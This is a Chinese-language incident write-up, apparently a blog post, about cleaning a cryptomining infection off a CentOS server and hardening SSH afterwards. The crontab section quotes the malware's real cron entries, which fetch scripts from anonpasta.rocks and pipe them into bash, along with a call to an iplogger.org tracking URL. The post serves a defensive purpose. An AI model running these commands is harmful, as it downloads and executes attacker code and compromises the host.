


# 解决挖矿病毒导致的cpu100%

> 忘记病毒进程的截图了，解决后也找不到了，就说一下整个过程吧。姑且把对手称之为“病毒”吧。
>
> 以下是我个人的解决方法，如果大神觉得不妥恳请指正。

------

## 1、解决病毒


> - 首先top -c 查看某进程cpu使用逼近100%，说明此事不简单，默默记下PID。
>
> - 查看进程的工作路径` ll /proc/PID/exe`，我的是在`/var/tmp/bbb`。
>
> - 可以选择删除改路径下的bbb文件夹，然后`kill -9 PID`。但通常这种注入都有定时，所以只是这样一会儿还会出现该进程继续霸占cpu。所以重点时得把定时给搞了。
>
> - 通过`crontab -e` 或 `vim /var/spool/cron/root`打开root用户的定时任务：
>
>   ```shell
>   */7 * * * * curl -A fczyo-cron/1.6 -sL $(curl -sL https://anonpasta.rocks/raw/nofoletove) | bash -s >/dev/null 2>&1
>   */10 * * * * curl -A fczyo-cron/1.6 -sL $(curl -sL https://anonpasta.rocks/raw/imusacubix) | bash -s >/dev/null 2>&1
>   */3 * * * * curl -A goodboy/1.5 -sL https://iplogger.org/1i9ve7
>   */2 * * * * curl -A fczyo-cron/1.6 -sL $(curl -sL https://anonpasta.rocks/raw/atucewakep) | bash -s >/dev/null 2>&1
>   ```
>
>   <font color='#02C874'>**按道理直接删除文件就行，但这样不太优雅，而且病毒会自动创建同名文件继续搞它的定时任务，所以我选择保留文件，只是把内容删除。**</font>
>
> - 可是，通常病毒会把该文件权限设置为“只读 -i”，“可追加 -a”，我们可以通过如下命令查看权限：
>
>   ```shell
>   lsattr /var/spool/cron/root
>   ```
>
>   结果：
>
>   ```shell
>   ----ia-------e- /var/spool/cron/root
>   ```
>
>   这样的话我们没法直接删除文件中的内容，需要先修改权限，如下：
>
>   ```shell
>   chattr -ia /var/spool/cron/root
>   ```
>
>   然后就可以`vim /var/spool/cron/root`将里面的内容删除然后:wq了。
>
> - <font color='#02C874'>**重点！！做完这些后，把权限再改为只读，并不允许追加，防止病毒继续追加内容进去，这样就白删了**</font>，所以执行：
>
>   ```shell
>   chattr +i /var/spool/cron/root
>   ```
>
>   至此，目前病毒就无法注册定时任务了，然后放心的kill掉那个进程。

------


## 2、防止再次被搞？


> - 修改远程连接密码（该方式简单）
>
> - 修改ssh端口（默认时22）：
>
>   > 这里有个问题，就是阿里云不让在网页控制台直接修改ssh的端口，如下：
>   >
>   > 
>   >
>   > 灰色不能修改。那就只能在服务器内部修改了。
>   >
>   > - 主要是修改`/etc/ssh/sshd_config `文件中的Port属性：
>   >
>   >   
>   >
>   >   先添加一个自定义的不冲突的端口，如5656，然后保存。
>   >
>   >   <font color='#02C874'>**这里有个问题，可能遇到也是同上面修改定时任务文件`/var/spool/cron/root`时遇到的权限问题，再使用上面的那些方法修改权限后再修改文件，然后恢复原有权限即可。**</font>
>   >
>   >   
>   >
>   > - 重启ssh，我用的是centos，命令如下：
>   >
>   >   ```shell
>   >   systemctl restart sshd.service
>   >   ```
>   >
>   > - 然后修改我们的ssh客户端软件，让其使用刚才定义的5656端口进行连接，连接过后，再修改配置文件把22端口删掉，这样就无法通过22端口做ssh连接了。
>   >
>   > - 最后为了安全，配一配防火墙啥的。